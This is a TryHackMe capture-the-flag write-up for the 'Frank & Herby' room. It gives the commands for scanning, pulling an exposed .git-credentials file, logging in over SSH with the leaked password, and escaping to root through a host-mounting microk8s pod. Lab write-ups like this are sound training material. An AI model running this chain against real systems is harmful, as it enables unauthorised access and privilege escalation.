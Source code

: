 # Frank & Herby make an app|Writeup-TryHackMe|medium
**this is a solution for Frank and Herby try again.... room on <font color="&#x1F4D8;">https://tryhackme.com</font>   
**URl: <font color="&#x1F4D8;"> https://tryhackme.com/room/frankandherby </font>

# Task 1 "Frank & Herb Make an App!"
 # 1st question
 The question begins asking us what port with a web application listening is open on the machine.
 to know that we have to  run **rustscan** on the **machine_ip**  then we get a list of open ports 
 write the next line in your terminal to create the scan "rustscan -a machine_ip --ulimit 3000"
 **after we create the scan we found that:** 
````

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
10250/tcp open  ssl/http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10255/tcp open  http     Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
25000/tcp open  ssl/http Gunicorn 19.7.1
31337/tcp open  http     nginx 1.21.3
32000/tcp open  unknown 

````
**If we look carefully there is only one port that fits what we need. Alternatively you can visit each of them in the browser until you find the one that connects.**

 # 2nd question
now we  will use gobuster to discover what other directories there  using the port number from 1st question
```` gobuster -e -u  $machine_ip:31337 -w -w /usr/share/wordlists/dirb/common.txt ````
**the output for that scan is:** 
````
http://machine_ip/.git-credentials
http://machine_ip/assets
http://machine_ip/css
http://machine_ip/index.html
http://machine_ip/vendor

````
the answer will be the first directory :**.git-credentials**
#3rd question
after that we will curl on the first ip address:````curl $machine_ip:31337/.git-credentials````
the output is ````http://frank:PASSWORD@192.168.100.50````
and these credentials allow us  access through SSH using this coomand ````ssh frank@$machine_ip````
after we access to the machine we will use the ````ls```` command to list all files in the machine 
after that  we have found two folders and one text file  **the flag will be in the text file**
# 4th question
 in this question we have to access using root 
 we may try to run ````sudo -l```` to see what frank can run as ````sudo```` with.
 unfortunately, frank is neither in the sudoers file nor the ````sudo```` group.
 but after some search i noticed that the trick of this room is There is microk8s on the machine used to deploy the app.
 now we  can list all the relevant deployments, pods etc. ````with microk8s kubectl get all````
````
frank@dev-01:~$ microk8s kubectl get pods
NAME                                READY   STATUS    RESTARTS   AGE
nginx-deployment-7b548976fd-77v4r   1/1     Running   2          11d
````
So we've found a running pod, but this doesn't give us the image definition used to build its containers - this requires another kubectl command to output the pod's configuration in yaml, revealing an image available at a local registry running on localhost:32000 :
````
frank@dev-01:~$ microk8s kubectl get pod nginx-deployment-7b548976fd-77v4r -o yaml
apiVersion: v1
kind: Pod
metadata:
  annotations:
    cni.projectcalico.org/podIP: 10.1.133.238/32
...snip...
spec:
  containers:
  - image: localhost:32000/bsnginx
    imagePullPolicy: Always
````
We can use this image in a revised version of the pod configuration file included above. Start by changing the "image" key of this file from "ubuntu:latest" to "localhost:32000/bsnginx" and save the resulting file as "exploit.yaml". We can now follow the exploit POC, applying the new pod definition to the cluster :
````
frank@dev-01:~$ microk8s kubectl apply -f exploit.yaml
pod/hostmount created
````
and now  create a shell session in the new container
````
frank@dev-01:~$ microk8s kubectl exec -it hostmount /bin/bash
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
root@hostmount:/# ls /opt/root/root
root.txt  snap
````
The root flag is at /opt/root/root/root.txt (i.e. /root/root.txt on the host machine).
